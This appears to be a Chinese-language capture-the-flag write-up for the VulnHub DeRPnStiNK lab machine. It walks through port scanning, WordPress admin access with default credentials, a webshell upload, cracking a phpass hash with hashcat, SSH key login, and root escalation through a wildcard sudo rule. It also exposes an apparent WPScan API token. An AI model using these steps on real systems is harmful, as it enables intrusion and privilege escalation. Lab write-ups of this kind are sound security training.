


靶机介绍
https://www.vulnhub.com/entry/derpnstink-1,221/

## 端口扫描

```bash
┌──(fforu㉿fforu)-[~/workspace/DeRPnStiNK]
└─$ sudo nmap -sT --min-rate 9999 -p- 192.168.1.124
[sudo] fforu 的密码：
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-21 15:45 CST
Nmap scan report for 192.168.1.124
Host is up (0.11s latency).
Not shown: 58262 filtered tcp ports (no-response), 7270 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:98:D4:77 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 27.58 seconds

┌──(fforu㉿fforu)-[~/workspace/DeRPnStiNK]
└─$ sudo nmap -sT -sCV -O -p21,22,80 192.168.1.124
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-21 15:46 CST
Nmap scan report for 192.168.1.124
Host is up (0.00090s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 12:4e:f8:6e:7b:6c:c6:d8:7c:d8:29:77:d1:0b:eb:72 (DSA)
|   2048 72:c5:1c:5f:81:7b:dd:1a:fb:2e:59:67:fe:a6:91:2f (RSA)
|   256 06:77:0f:4b:96:0a:3a:2c:3b:f0:8c:2b:57:b5:97:bc (ECDSA)
|_  256 28:e8:ed:7c:60:7f:19:6c:e3:24:79:31:ca:ab:5d:2d (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: DeRPnStiNK
| http-robots.txt: 2 disallowed entries
|_/php/ /temporary/
|_http-server-header: Apache/2.4.7 (Ubuntu)
MAC Address: 08:00:27:98:D4:77 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP
Running: Linux 2.4.X|2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22
OS details: Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22)
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.06 seconds
```

## web渗透


检查源代码得到一个flag

经过一系列信息搜集
得到一个wordpress的登录页面
可恶admin/admin直接进了
还卡了很久去搞了pypmyadmin站:(

进去了权限很低，看不到主题更看不到插件
wpscan给api再扫一遍
wpscan --url http://derpnstink.local/weblog/ --api-token  tYtl343tIjp9AjUaIHnLdZHA3QaRestXTHc7aBI59Jw

有一个文件上传，看一下介绍吧


这里可以看到有文件上传点
## getshell

本来想着直接上传反弹shell的马，结果弹了半天没弹回来
直接一句话木马蚁剑连了

连了shell看wordpress的配置文件


找到两个flag
然后就提权把

## 内网信息收集


sql数据库信息收集
```bash
┌──(fforu㉿fforu)-[~/workspace/DeRPnStiNK]
└─$ hashcat -m 400 -a 0 '$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41' /usr/share/wordlists/rockyou.txt
$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41:wedgie57

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 400 (phpass)
Hash.Target......: $P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41
Time.Started.....: Thu Mar 21 21:03:24 2024 (5 mins, 10 secs)
Time.Estimated...: Thu Mar 21 21:08:34 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     9060 H/s (9.43ms) @ Accel:512 Loops:128 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2801664/14344385 (19.53%)
Rejected.........: 0/2801664 (0.00%)
Restore.Point....: 2795520/14344385 (19.49%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:8064-8192
Candidate.Engine.: Device Generator
Candidates.#1....: weebanedth -> wcw32792

Started: Thu Mar 21 21:03:23 2024
Stopped: Thu Mar 21 21:08:36 2024
```
得到一个密码:wedgie57
su一下stinky用户
切换成功


在stinky用户家目录下找到一个私钥


暂且不知道是连谁的，都去试试吧

连stinky

```bash
┌──(fforu㉿fforu)-[~/workspace/DeRPnStiNK/png]
└─$ ssh -i key stinky@192.168.1.124 -oPubkeyAcceptedKeyTypes=ssh-rsa,ssh-dss
Ubuntu 14.04.5 LTS


                       ,~~~~~~~~~~~~~..
                       '  Derrrrrp  N  `
        ,~~~~~~,       |    Stink      |
       / ,      \      ',  ________ _,"
      /,~|_______\.      \/
     /~ (__________)
    (*)  ; (^)(^)':
        =;  ____  ;
          ; """"  ;=
   {"}_   ' '""' ' _{"}
   \__/     >  <   \__/
      \    ,"   ",  /
       \  "       /"
          "      "=
           >     <
          ="     "-
          -`.   ,'
                -
            `--'

Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

501 packages can be updated.
415 updates are security updates.

New release '16.04.7 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Thu Mar 21 09:17:47 2024 from localhost
-bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
stinky@DeRPnStiNK:~$
```

记得前面有个ftp端口
现在得到了这些信息
通过stinky/wedgie57

```bash
┌──(fforu㉿fforu)-[~/workspace/DeRPnStiNK/png]
└─$ cat derpissues.txt
12:06 mrderp: hey i cant login to wordpress anymore. Can you look into it?
12:07 stinky: yeah. did you need a password reset?
12:07 mrderp: I think i accidently deleted my account
12:07 mrderp: i just need to logon once to make a change
12:07 stinky: im gonna packet capture so we can figure out whats going on
12:07 mrderp: that seems a bit overkill, but wtv
12:08 stinky: commence the sniffer!!!!
12:08 mrderp: -_-
12:10 stinky: fine derp, i think i fixed it for you though. cany you try to login?
12:11 mrderp: awesome it works!
12:12 stinky: we really are the best sysadmins #team
12:13 mrderp: i guess we are...
12:15 mrderp: alright I made the changes, feel free to decomission my account
12:20 stinky: done! yay
```


那么就找下流量包把，可能包含密码

找到了mrderp用户及密码
merderp/derpderpderpderpderpderpderp
```bash
stinky@DeRPnStiNK:~/Documents$ su mrderp
Password:
bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
mrderp@DeRPnStiNK:/home/stinky/Documents$
```

## 提权

切换到mrderp后sudo -l
```bash
mrderp@DeRPnStiNK:~$ sudo -l
Matching Defaults entries for mrderp on DeRPnStiNK:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
mrderp@DeRPnStiNK:~$ sudo /home/mrderp/binaries/derpy*
sudo: /home/mrderp/binaries/derpy*: command not found
mrderp@DeRPnStiNK:~$ chmod +x ^C
mrderp@DeRPnStiNK:~$ cd binaries/
mrderp@DeRPnStiNK:~/binaries$ ls -la
total 8
drwxrwxr-x  2 mrderp mrderp 4096 Mar 21 09:57 .
drwx------ 11 mrderp mrderp 4096 Mar 21 09:58 ..
mrderp@DeRPnStiNK:~/binaries$ touch derpy.sh
mrderp@DeRPnStiNK:~/binaries$ ls
derpy.sh
mrderp@DeRPnStiNK:~/binaries$ echo '#!/bin/bash' >>derpy.sh
mrderp@DeRPnStiNK:~/binaries$ echo '/bin/bash' >> derpy.sh
mrderp@DeRPnStiNK:~/binaries$ cat derpy.sh
#!/bin/bash
/bin/bash
mrderp@DeRPnStiNK:~/binaries$ chmod +x derpy.sh
mrderp@DeRPnStiNK:~/binaries$ sudo /home/mrderp/binaries/derpy*
/bin/bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
root@DeRPnStiNK:~/binaries# whoami
root
root@DeRPnStiNK:~/binaries# find / -name 'flag*' -type f -not -path '/sys/*' -not -path '/usr/*' 2>/dev/null
/home/stinky/Desktop/flag.txt
/root/Desktop/flag.txt
root@DeRPnStiNK:~/binaries#

```
发现了一个可以执行脚本的sudo权限
新建一个写入bash就可以了